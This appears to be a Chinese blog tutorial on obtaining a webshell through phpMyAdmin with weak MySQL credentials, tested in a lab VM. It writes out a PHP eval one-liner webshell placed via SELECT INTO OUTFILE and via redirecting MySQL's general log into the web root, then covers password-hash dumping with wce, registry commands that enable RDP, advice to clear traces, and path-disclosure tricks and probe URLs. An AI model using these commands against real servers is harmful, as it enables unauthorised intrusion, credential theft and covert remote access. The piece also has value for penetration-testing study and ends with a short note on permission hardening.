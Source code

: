 phpmyadmin getshell姿势
phpmyadmin常被用来管理mysql数据库。在ctf比赛和实战中都可能会遇到phpmyadmin弱口令或者空密码的情况，这个时候就需要从phpmyadmin来getshell了，这里总结一下getshell的姿势。

0x00 前言
此次是在虚拟机中用wampserver搭了一个实验环境，然后在本机上执行操作。

靶机：Windows7 x64 IP 192.168.129.129
攻击机： Windows10 x64
PHP版本：5.6
Mysql版本：5.7
Apache版本：2.4

mysql密码为弱密码root，已爆破得到密码。
0x01 常用方法
最常见的应该就是select into outfile写入shell了，需要知道网站的绝对路径，而且比较容易失败。
select @@basedir可以看到mysql所在的绝对路径，此外还有一些爆路径的方法会在下面总结到。

爆出网站绝对路径后你可以开始写入shell。

select load_file('C:/wamp64/www/ma.php')
select '<?php eval($_POST[cmd]); ?>' into outfile 'C:/wamp64/www/ma.php';
当你尝试执行select into outfile时会爆出如图的错误：

执行以下命令：
SHOW VARIABLES LIKE "secure_file_priv";

如果值为文件夹目录，则只允许修改目录下的文件，如果值为NULL则为禁止。
并且这个值是只读变量，只能通过配置文件修改。

0x02 利用日志写shell
mysql5.0版本以上会创建日志文件，可以通过修改日志的全局变量getshell。

检测全局变量(general_log、general_log file)
general log 指的是日志保存状态，一共有两个值（ON/OFF）ON代表开启 OFF代表关闭。
general log file 指的是日志的保存路径。
SHOW VARIABLES LIKE 'general%'

由图可知general_log默认关闭，以及日志的存储路径 。

开启general_log 的作用：开启它可以记录用户输入的每条命令，会把其保存在c:\wamp64\bin\mysql\mysql5.7.14\data\的一个.log文件中，其实就是我们常说的日志文件
利用思路：开启general_log之后把general_log_file的值修改为该网站默认路径下的某一个自定义的php文件中，然后通过log日志进行写入一句话木马，然后再进一步利用。

set global general_log = "ON";
set global general_log_file='C:/wamp64/www/ma.php';

执行后可以看到生成的伪日志文件ma.php
此时在利用日志的记录插入一句话
select '<?php eval($_POST[cmd]);?>';
打开日志可以看到记录

然后尝试用菜刀连接即可getshell


0x03 获取管理员密码
既然都做到这里了就顺便简单复习一下Windows，继续做下去。
在服务器上如果是管理员启动的mysql服务那么getshell直接就是管理员权限，如果是其他用户则需要提权。
wce，pwdump，mimikatz等工具都能抓取密码，我这里选择上传wce进行密码抓取。

wce抓取
尝试直接抓明文，没有结果，那只能抓hash值了。


拿到hash值后就可以用hashcat或者直接跑彩虹表来获取密码。在线也有ophcrack可以破解。


3389连接
查看一下端口，发现3389没开

开启3389

REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f

然后连接，输入刚刚抓到的账号密码即可。


小结
其实这样一套操作下来动静是很大的，要注意清除痕迹，另外在Windows7这类非服务器的系统上远程登录的话会挤掉当前用户，用户掉线马上就知道出事了，当然也可以使用工具让其支持多用户登录，具体就不详细说明了。

0x04 php爆绝对路径方法
插入一句话木马时是需要知道网站绝对路径的，这里总结一下爆路径的方法。

单引号爆路径
直接在URL后面加单引号，要求单引号没有被过滤(gpc=off)且服务器默认返回错误信息。
www.xxx.com/news.php?id=1′

错误参数值爆路径
将要提交的参数值改成错误值，比如-1。-99999单引号被过滤时不妨试试。
www.xxx.com/researcharchive.php?id=-1

Google爆路径
结合关键字和site语法搜索出错页面的网页快照，常见关键字有warning和fatal error。注意，如果目标站点是二级域名，site接的是其对应的顶级域名，这样得到的信息要多得多。

Site:xxx.edu.tw warning
Site:xxx.com.tw “fatal error”
测试文件爆路径
很多网站的根目录下都存在测试文件，脚本代码通常都是phpinfo()。

www.xxx.com/test.php
www.xxx.com/ceshi.php
www.xxx.com/info.php
www.xxx.com/phpinfo.php
www.xxx.com/php_info.php
www.xxx.com/1.php
phpmyadmin爆路径
一旦找到phpmyadmin的管理页面，再访问该目录下的某些特定文件，就很有可能爆出物理路径。至于phpmyadmin的地址可以用wwwscan这类的工具去扫，也可以选择google。

/phpmyadmin/libraries/lect_lang.lib.php
/phpMyAdmin/index.php?lang[]=1
/phpMyAdmin/phpinfo.php
load_file()
/phpmyadmin/themes/darkblue_orange/layout.inc.php
/phpmyadmin/libraries/select_lang.lib.php
/phpmyadmin/libraries/lect_lang.lib.php
/phpmyadmin/libraries/mcrypt.lib.php
配置文件找路径
如果注入点有文件读取权限，就可以手工load_file或工具读取配置文件，再从中寻找路径信息（一般在文件末尾）。各平台下Web服务器和PHP的配置文件默认路径可以上网查，这里列举常见的几个。

Windows:
c:\windows\php.ini php配置文件
c:\windows\system32\inetsrv\MetaBase.xml IIS虚拟主机配置文件


Linux:
/etc/php.ini php配置文件
/etc/httpd/conf.d/php.conf
/etc/httpd/conf/httpd.conf Apache配置文件
/usr/local/apache/conf/httpd.conf
/usr/local/apache2/conf/httpd.conf
/usr/local/apache/conf/extra/httpd-vhosts.conf 虚拟目录配置文件
nginx文件类型错误解析爆路径
说明：
要求Web服务器是nginx，且存在文件类型解析漏洞。有时在图片地址后加/x.php，该图片不但会被当作php文件执行，有可能爆出物理路径
www.xxx.com/xx.jpg/x.php

0x05 思考
此次是在Windows系统下的实验，如果是Linux是否同样可以利用日志写shell？
于是找了个linux服务器测试

可以发现，我们没有权限在网站目录下创建日志文件。因为此台服务器上MYSQL并没有被赋予在站点根目录下创建文件的权限。所以也无法写shell并解析。

因此，只要做好权限把控，就可以避免此类安全问题
